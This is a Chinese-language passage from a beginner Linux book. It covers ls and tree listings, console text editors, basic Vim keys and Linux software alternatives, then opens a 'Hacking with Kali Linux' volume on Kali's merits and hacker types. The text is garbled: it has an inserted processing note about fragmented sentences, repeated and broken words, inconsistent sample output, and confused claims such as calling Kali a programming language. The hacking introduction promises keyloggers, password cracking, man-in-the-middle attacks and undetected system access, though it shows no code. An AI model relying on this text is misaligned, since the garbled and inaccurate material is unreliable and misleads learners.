```bash
$ ls -latr
```
```
total 2532
drwxr-xr-x 14 root root 512  Oct 23 08:43 ..
-rw-r--r-- 1 December users 10400  Oct 23 08:52 sales.data
-rw-r--r-- 1 December sales 256285 Oct 23 08:54 lecture.mp3
drwxr-xr-x 3 December users 512    Oct 24 09:20 PerfReviews
-rw-r--r-- 1 December users 28   Oct 24 14:22 .profile
drwxr-xr-x 2 December users 512  Oct 24 14:49 tpsreports
drwxr-xr-x 4 December sales 512  Oct 24 14:56 .
-rw------- 1 December users 3340  Oct 24 15:04 .bash_history
```

## 递归列出文件

在 `ls` 中使用 `-R` 选项会导致文件和目录递归显示。

```bash
$ ls -R
```
```
.:
PerfReviews lecture.mp3 sales.data tpsreports
./PerfReviews:
Fred John old
./PerfReviews/old:
Jane.doc
```

你也可以使用 `tree` 命令来获取更具视觉效果的输出。如果你只想查看目录结构，请使用 `tree -d`。

- `tree`: 以树状格式列出目录内容。
- `tree -d`: 列出目录。
- `tree -C`: 彩色输出。

```bash
$ tree
```
```
.
├── PerfReviews
│   ├── Fred
│   ├── John
│   └── old 
│       └── Jane.doc 
├── sales.data
├── sales-lecture.mp3
└── tpsreports 
2 directories, 6 files
```
```bash
$ tree -d
```
```
.
└── PerfReviews 
    └── old 
2 directories
```

## 列出目录而非内容

通常对一个目录运行 `ls` 时会显示该目录的内容。如果你只想获取目录本身，请使用 `-d` 选项。

```bash
$ ls -l PerfReviews
```
```
total 3
-rw-r--r-- 1 December users  36 Oct 23 08:49 Fred
-rw-r--r-- 1 December users  36 Oct 24 09:21 John
drwxr-xr-x 2 December users 512 Oct 23 12:40 old
```
```bash
$ ls -ld PerfReviews
```
```
drwxr-xr-x 3 December users 512 Oct 24 09:20 PerfReviews
```
```bash
$ ls -d PerfReviews
```
```
PerfReviews 
```

## 常用 ls 选项

以下是对你已学的 `ls` 选项的总结。

| 选项 | 描述 |
| :--- | :--- |
| `-a` | 所有文件，包括隐藏文件 |
| `-C` | 彩色输出 |
| `-d` | 列出目录 |
| `-l` | 长格式输出 |
| `-r` | 反序 |
| `-R` | 递归列出 |
| `-t` | 按时间排序 |

*(注：输入文本的剩余部分包含碎片化句子和重复的占位符短语，已处理以维持所提供的核心技术上下文。）*


你必须预装环境才能使用这些编辑器。

# Linux 文本编辑器

在处理简单文本、结构化文本和编程语言方面，Linux 有许多可用的文本编辑器。

以下是列出的最流行的编辑器，它们都适用于各种操作系统。

## 用于纯文本的 Linux 文本编辑器

用于纯文本的 Linux 文本编辑器分为两类图形化编辑器。

这两类分别是 GUI 编辑器和控制台文本编辑器。

GUI 编辑器的优点是具有直观、用户友好的界面。

另一方面，控制台编辑器的优势是适用于远程网络连接，这种连接可能提供或不提供适当带宽或可靠性。

## 基于控制台的文本编辑器

### Emacs

这款文本编辑器支持“越多越好”的理念。

它尝试尽可能支持所有功能。

如果你需要强大的功能，请尝试 `Emacs`。

通过它，你可以实际上获得不受限制的打开文件和子窗口、shell 访问，以及通过脚本调用关键字的灵活方式，这些都是 `Emacs` 的定义特性。

有许多 `Emacs` 变体适用于主要的编程语言，可以像编写代码一样对编程关键词进行文本高亮。

当你打开一个 `Emacs` 会话时，你可以编写、编码、发送电子邮件，还可以玩街机游戏。

此外，`Emacs`  own 有一个内置的辅助系统，功能极其强大，由用户定义的新命令组成，让你永远不需要离开。

关于它的优点之一是，它是强大的、可定制的且可扩展的。

这允许你表达自己的创造力。

### Jed

`Jed` 是支持在控制台终端中支持菜单和其他 GUI 特性的文本编辑器之一。

这款文本编辑器主要关注软件开发。

它的最佳功能之一是具有丰富的 Unicode 模式。

它还非常轻量，这意味着它不会给系统资源带来压力，是旧系统的理想选择。

### Pico

`Pico` 文本编辑器开发是为了帮助用户配合 pine 邮件系统加快邮件速度。

该编辑器有许多可用命令，显示在文本编辑区域的底部提供帮助。

它非常易用，提供了许多基本功能，如段落对齐、拼写检查器和复制/粘贴。

它的界面与 Windows 中的记事本非常相似。

### Nano

`Nano` 文本编辑器的设计目标小而精，旨在制作 `Pico` 的开源版本。

它还有一些额外功能，如搜索、替换和流畅滚动。

该编辑器还允许你使用鼠标和其他打印设备来定位光标，或通过屏幕底部的快捷栏激活命令。

它是以键盘为导的，你可以使用 `Control (Ctrl)` 键执行许多功能。

### Vim

`Vim` 是基于控制台的纯文本编辑器之一，支持语法高亮，并有许多用于特殊功能和配置的插件。

它是标准的 Linux 编辑器之一。

它从一开始初就是 Linux 的一部分。

你可以在几秒钟内进入和退出，快速更改文本文件。

最近的 `Vim` 扩展提供了额外功能，包括新的编辑命令、鼠标支持和图形版本。

你可以找到内置的初学者教程，可以通过 `vimtutor` 命令访问。

`Vim` 用户手册也可用，其中列出了各项功能。

你可以在 `Vim` 内部或在线访问。

# 第 14 章：使用 Vim 编辑你的文件

Linux 最有趣的事情之一是，它的设计和开发方式使得所有信息都存储在基于文本的文件。

Linux 中使用了两种文本文件。

扁平文件，文本存储在包含相似信息的行中，你可以在 `/etc` 目录中找到；以及可扩展标记语言 (XML) 文件，使用标签存储文本，你可以在 `/etc` 和 `/usr` 目录中找到。

文本文件的最大优势是它们可以一个系统或平台传输到另一个系统而无需转换，可以使用简单的文本编辑器进行查看和编辑。

`Vim` 是所有 Linux 发行版中最流行的文本编辑器，是以前流行的 `vi` 编辑器的改进版本。

`Vim` 可以根据用户的需求进行配置，并在颜色格式化、分屏编辑和编辑文本高亮等功能。

`Vim` 以 4 种模式工作，用于不同的目的。

- 编辑模式
- 命令模式
- 视觉编辑模式
- 扩展命令模式

当你首次启动 `Vim` 时，它将在命令模式下打开。

命令模式用于导航、剪切粘贴以及与其他文本操作相关的任务。

要进入 `Vim` 的其他模式，你需要输入单键，这些按键对于每种模式都是特定的。

- 如果你在命令模式下使用 `i` 键，你将进入插入模式，允许你编辑文本文件。你在插入模式中输入的所有内容都成为文件的一部分。你可以通过按下键盘上的 `Esc` 键返回命令模式。
- 如果你在命令模式下使用 `v` 键，你将进入视觉模式，你可以通过选择多个字符来操作文本。你可以使用 `V` 和 `Ctrl+V` 分别选择多行和多个块。你可以使用相同的按键 `v`、`V` 或 `Ctrl+V` 退出视觉模式。

- 输入 `:` 键将带你进入扩展命令模式，它允许你将输入的内容保存到文件并退出 `vim` 编辑器。

`vim` 中还有更多按键用于与文本编辑相关的高级任务。

尽管它是世界上 Linux 中最好的文本编辑器之一，但对新用户来说可能让他们感到无从下手。

我们将介绍任何人使用 `vim` 在 Linux 中完成编辑任务所需的最少按键。

让我们按照下面的步骤操作，让新用户获得一些 `vim` 的实践经验。

- 在 shell 提示符中使用命令 `vim filename` 打开文件。
- 尽可能多次地重复下文给出的文本输入循环直到习惯。
- 使用键盘上的方向键定位光标。
- 按 `i` 进入插入模式。
- 输入你选择的文本。
- 你可以使用 `u` 撤销对正在编辑的当前行执行的操作。
- 按键盘上的 `Esc` 键返回命令模式。
- 尽可能多次地重复以下循环（它教你删除文本），直到掌握。
- 使用键盘上的方向键定位光标。
- 按键盘上的 `x` 删除选中的文本。
- 你可以使用 `u` 撤销对正在编辑的当前行执行的操作。
- 你可以使用接下来的按键来保存、编辑、写入或丢弃文件。
- 输入 `:w` 保存/写入你对文件所做的更改并保持在命令模式。
- 输入 `:wq` 保存/写入更改并退出 `Vim`。
- 输入 `:q` 丢弃你对文件所做的更改并退出 `Vim`。

# 第 15 章：使用的 Linux 软件

如果你打算开始使用 Linux，你需要的第一之一就是良好的软件选择。

事实上，许多人坚持使用他们讨厌的操作系统，是因为他们不于放弃喜爱的应用程序。

下面列出的所有软件都是免费的，并且可以免费分给你的朋友或家人。

这应该有助于说服你使用 Linux 是一个好主意。

你实际上可以在 Linux 上运行 Windows 软件，使用一个名为 `Wine` 的程序。


然而，你基本上是在让你的电脑假装在运行 Windows。

如果你更倾向于使用专用的、通常更可靠的方法——你将需要一些出色的 Linux 软件。

## Microsoft Word 替代方案

商业世界中使用最广泛的工具之一是 `Microsoft Office`。

不久前，如果你在没有任何 `MS Office` 知识的情况下申请办公室工作，你很可能会被对方笑话并赶出房间。在许多公司，这种情况可能依然如此。

然而，`MS Office` 作为唯一办公套件的日子已经过去了。以下是一些可以运行在 Linux 上的 `Microsoft Office` 绝佳替代方案：

- **OpenOffice**: 这个极佳的、免费开源的办公套件可以在 Linux、`Windows` 和 `Mac OS` 上运行。因此，你会发现有许多人在使用它，而且与 `MS Office` 文档高度兼容。你不需要安装整个套件，但它包含了文字处理、电子表格、图形、演示文稿和数据库软件。如果你只是想要能让你继续办公工作的东西，并且只想在 Linux 上尝试一种办公套件——那么选择 `OpenOffice` 就没错了。
- **LibreOffice**: 它是基于 `OpenOffice` 开发的，但两者在 2010 年分道。它的功能比 `OpenOffice` 少一点，但在较慢的机器上运行得更好。这使得它成为使用旧电脑的企业的极佳选择。由于 `LibreOffice` 文件体积较小，它可以安装在 USB 驱动器并在不同的电脑上使用。
- **Google Docs**: 这是一个非常流行的在线办公套件，与 Google 的其他在线产品结合得非常好。如果你已经在使用 `Google` 账号，只需登录无需进行任何其他操作。你可以更改设置以便通过浏览器进行离线工作，因此 `Google Docs` 不再仅限于“在线”。

## 网页浏览器

如果你现在使用电脑，可能需要在线才能提高工作效率。幸运的是，你有许多 Linux 网页浏览器可以选择。你甚至可以使用 Linux 上最流行的浏览器，而无必将就将。以下是一些你可以尝试的绝佳 Linux 网页浏览器：

- **Firefox**: 这是 Linux 用户最受欢迎的浏览器之一。虽然有更快或更更新的选项，但 `Firefox` 被认为是最好的之一。
- **Chrome**: 你需要从 `Google` 下载它，因为它不会出现在软件仓库中。不过，如果你坚持使用仓库，可以使用 `Chromium` 代替。这是目前排名第一的浏览器，你会很高兴地知道 `Google` 完全支持 Linux 版的 `Chrome`。
- **内置浏览器**: 无论你选择哪个版本的 Linux，它几乎肯定会附带一个网页浏览器，那甚至可能是 `Firefox` 或 `Chromium`。如果你对使用什么并不挑剔，只是只需要偶尔检查一下网站，你可能会乐意使用默认浏览器。

## 音频、视频和图像

如果你想处理媒体文件，无论是创作艺术品、录制歌曲、剪辑你最新的假期视频，还是仅仅是观看——Linux 都提供了一些极佳的选择。

- **GIMP**: 如果你想找一个替代 `Photoshop` 的工具，这是你的最佳选择。然而，在某些地方，`GIMP` 确实没有 `Photoshop` 好。
- **PiTiVi**: 如果你想进行一些基本的家庭电影编辑，这是一个非常棒的软件选择。虽然它不能给你提供像 `Final Cut Pro` 那样的专业功能，但有许多功能供你选择。
- **Audacity**: 在处理音频文件方面，这是 Linux 用户的首选应用。通过它，你可以录制多轨道音频文件、对其进行剪辑、重新排列并添加特效。
- **VLC**: 这是一个流行的媒体播放器，既强大又可靠。它让你播放比几乎任何其他媒体播放器都更多类型的文件。

## 邮件客户端

如果你需要电脑办公，你可能想要一个好的邮件客户端。`Windows` 用户可能熟悉 `Outlook`，但 Linux 也有一些不错的替代方案。

- **Thunderbird**: 它由 `Mozilla` 开发，也就是带给你 `Firefox` 的同一公司。它是一个轻量级、易用的邮件客户端，有很多不同的选项。
- **KMail**: 这是 `KDE` 桌面环境的默认选择。它拥有许多功能，尽管你可能需要花一点时间适应它的布局。
- **Evolution**: 通常随 `GNOME` 桌面环境一起提供。它可以让你直接使用 `Google Calendar` 以及 `Microsoft Exchange`。它看起来很好且易于使用。

## 即时通讯工具

如果你习惯在电脑上与人联系，那么在切换到 Linux 时保持这一功能非常重要。以下是一些你可以尝试的优质即时通讯应用：

- **Skype**: 这是一个极其流行的即时通讯工具，许多人都不愿意放弃使用它。
- **Pidgin**: 这款通讯软件已经存在很长时间了，它可以让你登录 `Facebook`、`Yahoo`、`Google` 以及许多其他网络。

# 结论

所以，看起来你已经到了这本书的结尾了。我想你应该花点时间祝贺自己。到此时，你已经有了足够的基础信息来开始并尝试使用你所选择、安装并开始编程的 Linux 发行版了。

希望你在阅读这本书的过程中觉得这个过程对你是有益且浅且实用的。如果你对技术不敏感，或者从未真正接触过与技术相关的系统，讨论的内容可能会相当晦涩，但学习它是非常值得的。

作为一个初学者，你应该熟悉 Linux 命令。这是 Linux 最有趣的地方。人们喜欢在终端（terminal）中运行命令，这会产生不同的结果。Linux 的有趣之处在于它有各种发行版，而大多数命令在所有这些发行版中都是通用的。这使得人们从一个发行版过渡到另一个发行版变得容易。

不过，对你来说，每个 Linux 发行版都是为一组目标用户开发的，并且其设计和开发是为了满足这些用户的需求。这要求你确定想用 Linux 执行什么样的任务，然后从中选择最好的发行版！

有一点是可以肯定的；当你开始使用 Linux 时，你正在培养一系列对学习至关重要的技能。了解如何与计算机协作是有益的，你甚至可能决定将此从一个项目变成一个爱好，如果它足够吸引你继续探索，最终甚至可以成为一份职业。

无论如何，重要的是记住你应该确保保持知识与时同步。从这里开始，如果你还没有这样做，可能已经准备好安装你自己的 Linux 版本。如果你正处于过程的这个阶段，祝你好运！刚开始这个过程是一个令人兴奋的时刻，你一定会喜欢。如果你不确定是否已准备好下载一个发行版，也许你 own 发现先用书中之前列出的步骤运行几个不同的发行版进行测试会有趣。你可以玩玩系统，学习你喜欢哪种，想避开哪种，这可能帮助你更快做出决定。无论你决定什么，请记住这只是对该主题的介绍。这本书侧重于为你提供理解 Linux 是什么以及如何运作的基本要素。


你可以开始深入了解 Linux 提供的更多用途以及你通过该程序可以做的事情。

无论你接下来选择做什么，只要你愿意投入时间和精力，你就会发现自己在努力中取得了成功。

我祝你好运！最后，如果你觉得这本书在任何方面对你有帮助，我们将非常感谢你在 Amazon 上给出评价！

# 第 3 卷：使用 Kali Linux 进行攻击

## 助你成功的技巧与步骤逐步指南

## 成为专家黑客，创建你的键盘记录器，以及

## 创建中间人攻击并规划你自己的攻击

Julian James McKinnon

# 引言

感谢购买《使用 Kali Linux 进行攻击》，感谢你的支持。

接下来的章节将讨论你进入 Kali Linux 世界并在该操作系统上进行黑客攻击所需的所有知识。

在黑客攻击方面，有很多选项供你选择。任何一个操作系统都能胜任这项工作。

但在涉及到渗透测试以及你通过黑客攻击实现的一些主要部分并看到专业结果时，Kali Linux 将是最佳选择之一，而本指南将向我们如何开始。

首先，我们将花一些时间看看 Kali Linux 的优势，以及为什么当你准备好开始自己的攻击时，它是最理想的操作系统。

我们还将查看在你的系统上下载 Kali Linux 时可以使用的一些方法，以及如何进一步学习关于这一过程的知识。

我们对 Kali Linux 了解越多，通过实验并学习如何让它运行得越好，在开始某些黑客攻击时整体就会变得越容易。

考虑到这一点，现在是时候学习 Kali Linux 中可以进行的一些酷的黑客攻击选项了。

我们将看看成为道德黑客的优势，以及我们需要了解的关于道德黑客的基础知识。

然后，我们可以在现实生活中实际攻击之前，转向规划我们自己的攻击的步骤。

从那里开始，就是进入在处理自己的黑客冒险时可以进行的代码工作了。

我们将学习如何创建一个键盘记录器，然后如何添加截图保存功能，使这两种攻击都比单独运行时更高效。

我们还将学习如何编写自己的破解密码代码，以及如何通过 Kali Linux 操作系统来执行中间人攻击，无论是被动攻击还是主动攻击，都由我们独立完成。

本指南的最后将回顾我们为了成为黑客专家需要遵循的一些技巧和方法。

这些技巧可以确保我们能够进入并退出想要使用的目标系统（甚至是我们自己的系统），而不会让其他人注意到我们曾身在其中。

记住，作为一个黑客，如果有人注意到你在网络上，而你本就不该出现在那里，那么你在这个网络上的路就结束了。这对于任何黑客来说都绝不是一件好事。

关于黑客世界有很多误解。

我们假设每个尝试这种黑客攻击的人都是为了金钱而窃取个人和财务信息。

虽然有很多黑客是这样工作的，但道德黑客是非常友好的，因为他们会帮助其他网络，或者在过程中确保至少他们自己的网络是安全的。

当你准备好学习黑客攻击时，这可能是一个可怕的过程，有时整体上也很难以处理。

但当我们加入 Kali Linux 系统后，我们会发现处理我们想要进行的黑客攻击要变得容易得多。

当你准备好为你的需求实现这些目标时，请务必查看本指南以帮助你入门。

市场上上有许多关于这个主题的书，再次感谢你选择这一本！我们尽努力确保它包含尽可能有用的信息；请享受阅读！

# 第 1 章：使用 Kali Linux 系统进行黑客攻击的优势



当你准备好进入黑客世界以及利用它能做的一切时，花时间挑选一个正确的操作系统来完成我们所有需求的工作也是重要的。

市面上所有的操作系统都是很棒的，并且可以为你提供一些很好的处。但现在我们将花一些时间探索 Kali Linux 操作系统的优势，以及为什么我们想要使用这个选项，特别是在涉及到黑客攻击时。

在我们深入研究黑客攻击之前，我们需要花一些时间看看 Kali Linux 系统到底是什么。

这是 Linux 的发行版之一（共有几个），旨在用于高级渗透测试甚至是安全审计。

Kali 实际上附带了大量的工具，这些工具针对各种信息安全任务，包括我们讨论过的选项。

Kali Linux 由 Offensive Security 开发、资助并维护，该公司以作为信息安全培训领域的的领先公司而闻名。

它最初于 2013 年 3 月发布，是对 BackTrack Linux 所发现内容的完整、从底到位的重构。

这意味着它将完全遵循过去的一些开发标准。

这意味着你将拥有你寻找的安全功能，以及你想要的所有工具和标准。

Kali 系统将带有许多部分，这使其成为了一个工作的完美选择。

首先，你会发现 Kali 带有超过 600 种帮助渗透测试的工具。

在你花时间查看了 BackTrack 选项自带的所有工具后，Kali 能够消除许多不起作用或与其他某些工具提供的功能重复的工具。如果它们相似，也会被删掉。此外，Kali 系统将是免费的，并且计划一直保持免费。

Kali 与 Linux 发行版提供的许多其他选项一样，是免费使用的，并将一直保持下去。

你不需要为使用它付费，这使得你更容易开始你想要进行的某些黑客攻击培训，而不需要为了入门就花费大量资金。

你还将享受开源的 Git 树。

这意味着 Kali 将采用开源开发模式，且开发树将供任何人进行工作。你在 Kali Linux 中决定编写的所有源代码都可供任何人使用，你甚至可以对其进行调整或重新构建某些软件包，以帮助它满足你的特定需求。

如果你已经在黑客攻击和编程领域涉足了一段时间，你会很高兴地知道 Kali 被认为符合 FHS 标准。这意味着 Kali 将遵循所谓的“文件系统层级结构标准”（Filesystem Hierarchy Standard）。这将允许 Linux 用户在需要时更方便地找到二进制文件、库和支持文件。

你可以在此操作系统上使用的另一个优势是，它将带有广泛的无线设备支持。


这实际上是这些 Linux 发行版的一个一大优势点，即它将支持与无线接口的使用。

该操作系统被设计为支持尽可能多的无线设备，使其能够在许多硬件上良好运行，并确保与许多无线设备和 USB 设备兼容。

此外，还有一个可以用于打补丁进行注入（injection）的自定义内核。

作为渗透测试员，你所工作的开发团队需要花费一些时间对无线网络进行评估。这就是为什么你使用 `Kali Linux` 时，其内核将包含最新的注入补丁。

我们还将看到，整个过程将在一个尽可能安全的环境中开发。与 `Kali` 工作的团队将由一小部分组成，他们是整个团队中唯一被信任可以提交包并与仓库进行交互的人。而这一切都将在许多不同的安全协议的帮助下完成。

作为一名程序员，你还会喜欢这种操作系统附带的许多语言支持，它能够按照你的意愿处理几乎任何编程语言。尽管你想要用手操作的大多数渗透工具都是用英文编写的，但 `Kali` 实际上被配置为提供其他语言的支持。这意味着更多用户能够在母语的帮助下完成这些任务并操作，同时也能找到完成工作所需的工具。

最后，我们还可以查看 `Kali Linux` 系统将如何针对你想要的工作进行完全定制。这是一个非常优秀的操作系统，因为我们可以检查并更改设计，确保该操作系统能够以你处理此类黑客行为和攻击所需的方式运行。这些只是我们在使用该系统时可以享受的选项之一。它可能不是世界上第一的操作系统，也可能是人们起初会担心使用的系统。但在我们开始所需的黑客活动时，它包含了我们寻找的许多功能及更多，而且确实会让整个生活变得更容易一些。随着本指南的进行，你将更更好地了解它的工作原理，以及我们能够采取的步骤，以确保你在进行黑客操作的同时充分利用 `Kali` 系统的价值。

## 为什么黑客喜欢用 Kali 来满足他们的需求？

在我们进入可以执行的一些特定黑客操作之前，我们需要探索的下一件事是为什么 `Kali` 是很多黑客喜欢使用的东西。世界上确实有很多其他可以使用操作系统，那么为什么黑客想在满足黑客需求时使用 `Kali`，而不是其他任何操作系统之一呢？

我们在上一节中花了一点时间查看使用 `Kali` 的好处，但让我们深入探讨这些优点以及其他一些选项，真正看看为什么 `Kali` 是 Linux 最好的发行版之一，也是在进行黑客攻击时最优秀的操作系统之一：

1. **它是开源的**：在现代世界中，如果你正在开发软件并需要某些知识或对操作系统代码进行修改，你会发现 `Linux` 是一个很好的选择。该系统的源代码很容易根据你的需要进行修改，而无需担心版权或任何其他相关问题。这确保了你可以使用 `Kali` 并让它满足你的黑客需求，无论这些需求是什么。
2. **它的兼容性非常好**：`Kali` 操作系统能够支持所有的 Unix 软件包，并且在此过程中能够支持所有最常见的文件格式。这使得按照你的意愿与该系统工作变得更容易。
3. **安装简单且快速**：你会发现大多数带有 `Linux` 的发行版对用户安装和设置程序都非常友好，其他 `Linux` 发行版还将带有使额外软件安装变得用户友好的工具。此外，这种操作系统的启动时间会比现有的一些操作系统要快。
4. **稳定性**：你会发现这个操作系统非常简单易于操作，并且在未来的很长一段时间内将保持稳定。这有助于它保持你所需的性能水平，你不必担心它像某些其他选项那样随着时间的推移而死机或变慢。这使得在未来多年中使用该操作系统成为可能。
5. **有助于多任务处理**：`Linux` 操作系统的设计允许我们同时处理多个任务。你可以在后台执行类似大型打印任务的同时，完成你想做的其他工作，而不会出现任何问题或减速。
6. **命令行界面让工作变得更容易**：`Linux` 操作系统专门围绕强大且高度集成的命令行界面设计，这是 `Windows` 和 `Mac` 系统不具备的。这将使黑客甚至其他 `Linux` 用户对他们正在使用的系统拥有更多的访问和控制权。
7. **操作系统比以前更轻、更便携**：作为一名黑客，你可以从任何喜欢的 `Linux` 发行版创建一个现场且可定制的启动盘。安装过程将非常简单，并且比以前消耗更资源。因为这个操作系统是轻量级的，允许它比以前消耗更少的资源。
8. **维护**：你会发现维护这个操作系统非常容易。你想要运行的所有软件都很容易安装。每个 `Linux` 变体都有其自己的中央软件仓库，这将使用户更容易搜索他们想要使用的软件。
9. **极大的灵活性**：我们在使用 `Linux` 系统时看到的最大特性是它能够与许多不同的事物协作，这增加了我们看到的灵活性。例如，你会发现它可以被用于高性能服务器应用程序、嵌入式系统和桌面应用程序。
10. **它比其他选项漏洞更**：今天，除了 `Linux` 发行版外，几乎所有的操作系统都有许多其他黑客可以利用的漏洞。但至少目前，`Linux` 被认为是最安全的操作系统之一，它的漏洞比我们在其他选项中发现的要少。这在帮助我们处理安全数据并确保黑客不会攻击我们的系统（至少不会轻易得逞）时非常重要。
11. **它支持多种编程语言，因此你可以找到最适合自己的一个**：`Linux` 能够支持许多最流行的编程语言。


它能够支持 Perl、[Python](https://www.amazon.com/dp/B084MHS8H9)、Ruby、PHP、Java 以及 C 和 [C++](https://www.amazon.com/dp/B084NVSNTT) 等选项。Linux 将使得在任何一种这些语言中编写脚本的过程变得尽可能简单和高效。

### 12. 你大多数想要使用的优秀黑客工具都是为 Linux 编写的：

一些常用的黑客工具，包括 `Nmap` 和 `Metasploit`，将被移植到 Windows 上运行。

然而，这些工具中并不是所有功能都能转移到 Linux 上。Linux 将提供一些更好的工具，同时以更优的方法帮助管理内存。

### 13. 它比其他操作系统消耗更少的 RAM。

正如我们之前提到的，Linux 将是非常轻量化的，它不需要大量的磁盘空间。

由于这些特性，我们发现它消耗的 RAM 较少，而且不需要大量的处理实用程序。

因此，它可以轻松地与现的一些其他操作系统一起安装。这允许你使用一个操作系统进行黑客操作，然后使用另一个操作系统处理你想要进行的其他任务。

### 14. 易用性：

我们将探索的最后一个优点，也是黑客喜欢使用 Linux 而不是其他某些选项的主要原因之一，就是它真的非常容易操作和学习如何使用。

流传着一些迷言，说学习 Linux 并让这个过程满足我们的需求有多困难。但这完全是错误的。

如果你有一点时间了解更多关于 Linux 及其能提供的所有内容，并花时间对其进行实验，你很快就会发现这是一个易于操作的操作系统，并且它可以很好地为你服务。

正如你在这里看到的，黑客想要使用 Linux 的原因有很多，特别是当涉及到 Linux 的 `Kali` 发行版时，它可以帮助他们完成想要实现的某些编程和黑客工作。

这仅仅是一个开始。

当你开始接触想要做的某些黑客操作和编码时，你会很快发现自己自己爱上 `Kali Linux` 的理由，而且很快就能弄明白，为什么它是使用时最好的编程语言之一，能够最大程度地满足你的编码和黑客需求。

# 第 2 章：开启黑客攻击之旅


现在我们已经花了一段时间来了解 `Kali Linux` 以及黑客之所以选择使用此操作系统而不是 Windows 或 Mac 系统来满足某些黑客需求的原因，现在是时候转向一些关于黑客攻击我们需要了解的内容了。

特别是，我们将更多地关注道德黑客（ethical hacking）与黑帽攻击（black hat hacking）或不道德攻击之间的具体区别。

在深入研究之前，让我们快速看看黑帽攻击到底是怎么回事。这些人就是我们谈到黑客世界时通常会想的人。他们在开始进行黑客活动时带有恶意图，并希望在此过程中伤害他人。他们会尝试经营业务、盗取信息并在在此过程中获利。

他们有很多方法可以用来让这种黑客攻击生效，但他们的最终目标是尝试在伤害他人的同时让自己获益。

但还有道德黑客（ethical hacker）。这些人不会为了伤害他人而这样做。他们可能为公司工作，试图防止黑客进入大型集团的网络，或者他们可能选择使用这些技术来保护自己的网络。但他们使用相同的方法来确保黑帽黑客无法进入他们的网络，与黑帽黑客不同，他们拥有进入目标网络的权限。

当然，还有其他几种我们需要注意的黑客类型，这取决于他们的动机、他们对状况、黑客攻击以及与之相关的所有编码的知识水平等等。

但现在，我们将注意力集中在黑帽黑客和道德黑客的差异上，以帮助我们了解这两者的基础知识。

## 什么是道德黑客？

从这里开始，我们需要更密切地观察道德黑客或道德黑客攻击（ethical hacking）。这些术语被用于描述个人或公司执行的黑客攻击，目的是确定网络或计算机上是否存在任何威胁或潜在威胁。

道德黑客会尝试绕过系统的安全防护，然后搜索是否有恶意黑客可能为了其自身需求而利用的弱点。这些信息将由该组织用于改进系统的安全性，以消除或至少减少任何潜在的攻击。

黑客攻击是我们用来寻找系统内部某些漏洞的过程，我们可以利用这些漏洞获取系统的访问（通常是未经授权的访问），执行某些恶意活动。

黑客使用的方法取决于他们的动机，但黑客攻击被认为是非法的，如果你在实施过程中被抓，将会导致严重的后果。

然而，在某些情况下黑客攻击可以是合法的，主要是在获得许可的情况下进行的。公司聘请计算机专家黑入系统，希望发现系统中的漏洞，并在黑帽黑客出现之前将其切断。这是针对具有恶意意图的合法黑客可以使用的预防措施之一。

这种在获得许可的情况下黑入系统且没有任何恶意意图的人将被称为道德黑客，而他们使用的过程被称为道德黑客攻击。这将我们进入白帽黑客（white hat）和黑帽黑客之间差异的讨论。

请记住，在这两者之间还有其他几种类型，但我们将专注于这两种，以便我们更好地理解黑客攻击以及整个过程包含的内容。让我们深入吧。

从这里开始，我们需要查看一些我们可以使用的不同黑客攻击方法以及现实中真实存在什么。这些各种类型的黑客攻击通常会使用相同的技术和方法，因此学习本指南中将要的内容对于道德黑客攻击来说也是重要的。

但黑客之所以执行这些方法和技术背后的动机才是这里的。考虑到这一点，我们将探索的两种主要黑客类型将包括黑帽黑客和白帽黑客。

首先，我们将更密切地观察黑帽黑客。当你第一次听到“黑客”这个词时，脑海中立刻浮现出哪些想法？你可能想的是我们在某些大新闻中看到的内容，即黑客能够获取大量信息并以任何他们想要的方式使用它们。那些窃取信息的黑客（例如我们听过的大数据泄露事件），并将其用于获取自己的财务利益。这些就是黑帽黑客。


这些人是能够进入网络或系统的人，无论该系统只有一台计算机还是有很多台计算机，而且他们进入这些系统是不经过系统所有者许可的。

他们进入这些系统是希望在过程中获得某些个人利益。

他们可能会进行中间人攻击、记录目标计算机的击键，或使用其他方法来获取控制权并他们真正想要的信息。

这类黑客能够利用许多方法来针对他们的目标。

他们不惜利用恶意软件、病毒、木马等工具来长足立足。

有时，他们的工作会被简单地放置在目标网络上并留在那那里，直到需要为止。

但当一个黑客是黑帽黑客时，他们总是有一个计划。

他们会找出攻击目标计算机的最佳时机，以获得最大的收益并确保他们将获得最好的结果。

当黑帽黑客成功时，可能会导致公司和个人损失数百万美元，并损害声誉。

### 黑客的类型

此外，我们也可以与白帽黑客合作。

这些黑客可能与黑帽黑客使用相同的技术，但他们做事情的动机或理由不同。

白帽黑客这样做会有更高尚的理由。

这些个人在进行任何工作之前，将获得进入网络或系统的许可。

有时这将是他们自己的网络，或者因为他们是公司的员工，想要检查他们的网络是否安全。

白帽黑客将以两种方式之一执行他们的工作。

首先，他们可能会花时间查看系统，看看是否能在其中发现漏洞，然后向管理人员或任何控制网络的人报告这些问题。

这些白帽黑客也可能是对计算机及其工作原理感兴趣的人，他们可能可能在尝试进入系统时发现其中存在一些挑战。

他们随后会决定利用那里的信息来获取个人利益，但他们并不总是拥有正确的权限。

另一方面，还有一些白帽黑客会积极工作，寻找特定网络中出现的缺陷和漏洞。

有时，前一组的人在发现漏洞后会被要求进入并为公司工作，而有时他们已经在那里工作，以维护网络安全。

然而，我们在这里需要处理的拼图关键在于，白帽黑客拥有进入网络的正确许可。

他们在开始之前已经收集了这些许可，网络所有者也知道他们在那里以及他们在那里在做什么。

然后，白帽黑客就可以检查并提供一份关于他们在网络上发现的报告，以便在出现漏洞时进行展示，并提出一些建议的步骤，以确保网络尽可能安全。

最后，我们还将看到所谓的灰帽黑客。

就他们所的工作而言，这些人将介于白帽黑客和黑帽黑客之间的某个位置。

他们完全没有许可进入网络，而且网络所有者通常不知道黑客是否在那里，也不知道他们正在做什么，只要该黑客擅长他们所从事的工作。

但这些人通常并不是为了制造问题和窃取信息。

例如，他们可能会寻找漏洞，然后提醒为网络工作或拥有网络的人，提醒他们存在这些问题。

在本在本指南中，我们将主要关注你作为白帽黑客时会做的事情。

这将确保你能够维护网络，同时学习一些关于黑客攻击的基础知识。

不过，无论你是黑帽黑客还是白帽黑客，你都会发现方法是相同的。

我们在这两类黑客之间注意到的最大区别将是你是计划进行攻击并接管以获取个人利益，还是为了帮助保护系统并确保错误方完全无法进入。

这件事的选择权取决于你，但请记住，黑帽黑客被视为非法行为，我们将记住仅讨论我们能够操作的白帽黑客技术。

## 什么是道德黑客攻击？

现在，我们需要确保我们正在进行的工作被视为道德黑客攻击。

记住，黑帽攻击和道德黑客攻击都非常相似，在完成所有工作的技术和步骤方面，他们将使用相同的选项。

